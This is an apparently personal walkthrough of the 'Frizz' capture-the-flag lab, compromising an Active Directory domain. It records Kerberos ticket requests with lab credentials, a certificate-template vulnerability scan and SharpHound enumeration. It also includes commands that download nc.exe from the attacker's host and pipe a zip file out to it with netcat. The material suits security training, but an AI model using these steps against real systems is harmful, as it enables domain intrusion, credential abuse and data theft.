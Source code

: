 
>ntpdate frizzdc.frizz.htb 

> impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb 

```
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb 
Impacket v0.13.0.dev0+20250508.104819.fde4265a - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in f.frizzle.ccache
```

>export KRB5CCNAME=f.frizzle.ccache 

> ssh f.frizzle@frizz.htb -K

get user.txt in desktop

# M.School Bus take over

in desktop there is backup file
unzip
find credentials

'M.schoolbus' '!suBcig@MehTed!R'

> certipy find -u 'f.frizzle@frizz.htb' -p 'Jenni_Luvs_Magic23' \
    -dc-ip '10.10.11.60' -stdout -vulnerable

# UPLOAD from KALI TO WINDOWS

> python3 -m http.server 80

> Invoke-WebRequest -Uri http://10.10.16.14/nc.exe -OutFile C:\Users\f.frizzle\Desktop\nc.exe

# UPLOAD from WINDOWS to KALI

in kali
> nc -lvnp 4444 > user.txt

> Get-Content "C:\Users\f.frizzle\Desktop\20250530122207_output.zip" | ./nc.exe 10.10.16.14 4444

# Uploaded sharphound

./sharphound.exe --CollectionMethods All --ZipFileName output.zip

# MR BUS Esc

> impacket-getTGT frizz.htb/'M.SchoolBus':'!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb

> export KRB5CCNAME=M.SchoolBus.ccache
